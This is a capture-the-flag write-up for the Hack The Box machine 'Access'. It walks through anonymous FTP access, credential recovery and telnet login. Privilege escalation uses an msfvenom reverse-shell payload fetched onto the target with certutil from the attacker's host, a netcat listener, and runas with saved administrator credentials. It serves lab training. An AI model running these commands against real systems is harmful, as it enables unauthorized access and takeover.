 
# HTB - Access

#### Ip: 10.10.10.98
#### Name: Access
#### Rating: Easy

----------------------------------------------------------------------

![Access.png](../assets/access_assets/Access.png)

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up:

```text
┌──(ryan㉿kali)-[~/HTB/Access]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.98
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-12 14:13 CDT
Nmap scan report for 10.10.10.98
Host is up (0.068s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE
21/tcp open  ftp
23/tcp open  telnet
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.40 seconds
```

Looks like just a few ports open, which is somewhat rare for Windows machines. Lets dig in further and use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Access]
└─$ sudo nmap -sC -sV -T4 10.10.10.98 -p 21,23,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-12 14:17 CDT
Nmap scan report for 10.10.10.98
Host is up (0.066s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

Taking a look at the site on port 80, we find just a static page with a picture of a server room.

![site.png](../assets/access_assets/site.png)

Nmap caught that we could access FTP anonymously, so lets try that before digging further into http:

```text
┌──(ryan㉿kali)-[~/HTB/Access]
└─$ ftp 10.10.10.98  
Connected to 10.10.10.98.
220 Microsoft FTP Service
Name (10.10.10.98:ryan): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
425 Cannot open data connection.
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM       <DIR>          Backups
08-24-18  10:00PM       <DIR>          Engineer
226 Transfer complete.
ftp> cd Backups
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM              5652480 backup.mdb
226 Transfer complete.
ftp> get backup.mdb
local: backup.mdb remote: backup.mdb
200 PORT command successful.
125 Data connection already open; Transfer starting.
 18% |**************                                                                  |  1024 KiB    0.99 MiB/s    00:04 ETAftp: Reading from network: Interrupted system call
  0% |                                                                                |    -1        0.00 KiB/s    --:-- ETA
550 The specified network name is no longer available. 
WARNING! 517 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
ftp> cd ..
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM       <DIR>          Backups
08-24-18  10:00PM       <DIR>          Engineer
226 Transfer complete.
ftp> cd Engineer
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-24-18  01:16AM                10870 Access Control.zip
226 Transfer complete.
ftp> get "Access Control.zip"
local: Access Control.zip remote: Access Control.zip
200 PORT command successful.
125 Data connection already open; Transfer starting.
100% |********************************************************************************| 10870       34.39 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 45 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
10870 bytes received in 00:00 (34.35 KiB/s)
ftp> bye
221 Goodbye.
```

Cool, I was able to grab two files from FTP. Lets checkout backup.mdb first. The .mdb file is a Microsoft DataBase file, I think firstly I'll just try running the `strings` command against it to see if I can find anything juicy that way:

`strings backup.mdb`

![strings.png](../assets/access_assets/strings.png)

So looks like maybe a few usernames/ roles, and maybe passwords? lets add these to a list called strings.txt:

```text
┌──(ryan㉿kali)-[~/HTB/Access]
└─$ cat >> strings.txt                               
jim
administrator
backup_admin
engineer
access4u@security
admin
```

Lets go back and take a look at the Access Control.zip file. Trying to open it up we see it is password protected. 

![ac_passwd.png](../assets/access_assets/ac_passwd.png)

Trying access4u@security found in the other file works and we can access the file.

After unpacking it with `readpst` I can find a note from user John:

```text
Hi there,

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.                                                                                          

Regards,

John
```

Nice, looks like we may have some working credentials `security:4Cc3ssC0ntr0ller`

Because there are so few ports open on this box, looks like we may need to try telnet first:

```text
┌──(ryan㉿kali)-[~/HTB/Access]
└─$ telnet 10.10.10.98
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>whoami
access\security

C:\Users\security>hostname
ACCESS
```

Cool, we're on the box! Lets grab the user.txt flag:

![user_flag.png](../assets/access_assets/user_flag.png)

### Privilege Escalation

After poking around for awhile and not seeing much, I thought I'd see if there were any passwords cached in memory using `cmdkey /list`:

![cmdkey.png](../assets/access_assets/cmdkey.png

Nice! We should be able to escalate privileges from here using RunAs.

First, lets go ahead and use msfvenom to create a reverse shell:

```text
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.22 LPORT=443 -a x64 -f exe > shell.exe
```

Next, we'll start a Python HTTP server using `python -m http.server 80` and then use certutil to download our file onto the target:

```text
certutil -urlcache -split -f "http://10.10.14.22/shell.exe" 
```
Once the reverse shell is on the target we can start up a netcat listener `nc -lnvp 443` and run:

```text
runas /savecred /user:ACCESS\Administrator shell.exe
```

If everything has gone to plan we should catch a shell back as access\administrator.

![shell.png](../assets/access_assets/shell.png)

All that's left to do now is grab that root.txt flag:

![root_flag.png](../assets/access_assets/root_flag.png)

Thanks for following along!

-Ryan

--------------------------------------------------------------------------------
